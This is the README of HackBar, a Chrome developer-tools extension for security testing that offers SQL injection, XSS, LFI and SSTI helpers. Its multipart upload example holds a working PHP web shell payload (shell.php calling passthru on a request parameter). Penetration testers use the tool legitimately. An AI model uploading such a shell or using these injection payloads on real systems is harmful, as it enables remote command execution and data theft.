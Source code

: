 # HackBar

HackBar for Chrome.

Available on [Chrome Web Store](https://chrome.google.com/webstore/detail/hackbar/ginpbkfigcoaokgflihfhhmglmbchinc).

## Requested Permissions

* tabs
* webRequest
* webRequestBlocking

## Features

* Supported methods
  * GET
  * POST
    * application/x-www-form-urlencoded
    * [multipart/form-data](#multipartform-data)
    * [application/json](#applicationjson)

* Auto Test
  * Common paths (Wordlist from [dirsearch](https://github.com/maurosoria/dirsearch/blob/master/db/dicc.txt) included)

* SQLi
  * Dump all database names (MySQL, PostgreSQL)
  * Dump tables from database (MySQL, PostgreSQL, SQLite)
  * Dump columns from database (MySQL, PostgreSQL, SQLite)
  * Union select statement (MySQL, PostgreSQL, SQLite)
  * Error-based injection statement (MySQL, PostgreSQL)
  * [Dump in one shot payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-dios---dump-in-one-shot) (MySQL)
  * [Dump current query payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-current-queries) (MySQL)
  * Space to Inline comment

* XSS
  * Html encode/decode
  * String.fromCharCode encode/decode

* LFI
  * PHP wrapper - Base64

* SSTI
  * Jinja2 SSTI  ([Flask RCE Reference](https://twitter.com/realgam3/status/1184747565415358469))
  * Java SSTI

* Encoding
  * URL encode/decode
  * Base64 encode/decode
  * Hexadecimal encode/decode
  * Unicode encode/decode

* Hashing
  * MD5
  * SHA1
  * SHA256
  * SHA512

## Usage

### How to open it?

1. Open **Developer tools** (Press ```F12``` or ```Ctrl + Shift + I```)
2. Switch to **HackBar** tab
3. Enjoy it

### Shortcuts

| Description | Default   | Mac           |
| ----------- | --------- | ------------- |
| Load        | `Alt + A` | `Control + A` |
| Split       | `Alt + S` | `Control + S` |
| Execute     | `Alt + X` | `Control + X` |

### Supported enctype

#### multipart/form-data

After changing **enctype** field to ```multipart/form-data```, you can put your payload into **Body** field such as the following:

```
------WebKitFormBoundarydbJBATDXCC6CL0lZ
Content-Disposition: form-data; name="user"

user
------WebKitFormBoundarydbJBATDXCC6CL0lZ
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-httpd-php

<?php passthru($_GET['c']); ?>
------WebKitFormBoundarydbJBATDXCC6CL0lZ--
```

We will consider the first line as boundary, and reconstruct a form element to send your request.

Therefore, sent boundary will not be the same as your typed.

#### application/json

After changing **enctype** field to ```application/json```, you can put your payload into **Body** field such as the following:

```
{
  "username": "admin",
  "password": "admin"
}
```

In order to post JSON data, we will insert a dummy field or object to your JSON such as the following:

```
{"username":"admin","password":"admin","4dxnzjzd5mi":"="}
```

For more details, please visit "[Posting JSON with an HTML Form](https://systemoverlord.com/2016/08/24/posting-json-with-an-html-form.html)".

## Third-party Libraries

* Vue.js
* Vuetify.js
* [crypto-js](https://github.com/brix/crypto-js)

## Contributor

- [lebr0nli](https://github.com/lebr0nli)
